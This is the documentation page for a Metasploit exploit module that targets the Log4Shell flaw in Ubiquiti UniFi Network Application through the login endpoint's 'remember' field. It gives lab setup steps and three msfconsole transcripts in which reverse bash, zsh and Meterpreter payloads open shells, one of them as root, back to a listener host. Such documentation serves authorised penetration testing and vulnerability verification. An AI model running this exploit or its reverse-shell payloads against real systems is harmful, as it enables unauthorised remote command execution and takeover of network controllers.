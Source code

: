 ## Vulnerable Application

### Description
The Ubiquiti UniFi Network Application versions 5.13.29 through 6.5.53 are affected by the Log4Shell
vulnerability whereby a JNDI string can be sent to the server via the 'remember' field of a POST request to the
/api/login endpoint that will cause the server to connect to the attacker and deserialize a malicious Java
object. This results in OS command execution in the context of the server application.

This module will start an LDAP server that the target will need to connect to.

### Setup

1. Either install the Windows application, or start the docker container (use jacobalberty/unifi:v6.5.53).
2. Navigate to the service on HTTPS port 8443 to setup the UniFi controller.
3. On step 2, select the button to "Switch to Advanced Setup"
4. While still on step 2, disable the remote access and "Use your Ubiquiti account for local access" options, then
   create a local account.
5. On step 5, when prompted to setup WiFi, select the "Skip" button in the bottom right corner.
6. Review the configuration, and finalize it.

Older versions of the UniFi Network Application can be downloaded from [community.ui.com][1].

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/multi/http/ubiquiti_unifi_log4shell`
3. Set the `RHOSTS`, `TARGET`, `PAYLOAD`, and payload associated options
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Scenarios

### UniFi Network Application v6.6.53 on Docker
This uses jacobalberty/unifi:v6.5.53. Note that tags v6.5.54, v6.0.45, and v5.14.23 all contain the fix for this
vulnerability. See [jacobalberty/unifi](https://hub.docker.com/r/jacobalberty/unifi) for more information.

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Unix
TARGET => Unix
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.250.6
RHOST => 192.168.250.6
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.250.134
SRVHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.250.134
LHOST => 192.168.250.134
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD cmd/unix/reverse_bash
PAYLOAD => cmd/unix/reverse_bash
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 5 opened (192.168.250.134:4444 -> 192.168.250.6:44984 ) at 2022-01-14 09:21:04 -0500
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/lib/unifi
```

### UniFi Network Application v6.5.53 on Windows Server 2016

```
msf6 > use exploit/multi/http/ubiquiti_unifi_log4shell
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOST 192.168.159.65
RHOST => 192.168.159.65
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set SRVHOST 192.168.159.128
SRVHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set RPORT 8443
RPORT => 8443
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Sending stage (175174 bytes) to 192.168.159.65
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.65:51940 ) at 2022-01-14 09:19:25 -0500
[*] Server stopped.

meterpreter > getuid
Server username: WIN-BPID95ACQ7E\smcintyre
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### UniFi Network Application v5.14.22 on OSX 11.2.3

```
msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > show options

Module options (exploit/multi/http/ubiquiti_unifi_log4shell):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   LDIF_FILE                   no        Directory LDIF file path
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     111.111.1.11     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    222.222.2.222    yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    389              yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_zsh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  222.222.2.222    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Unix


msf6 exploit(multi/http/ubiquiti_unifi_log4shell) > run

[*] Started reverse TCP handler on 222.222.2.222:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unexpected request 2
[*] Command shell session 2 opened (222.222.2.222:4444 -> 111.111.1.11:50474 ) at 2022-01-20 07:20:22 -0500
[*] Server stopped.

id
uid=501(yourmom) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),399(com.apple.access_ssh),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),400(com.apple.access_remote_ae)
```

[1]: https://community.ui.com/releases?q=network+application
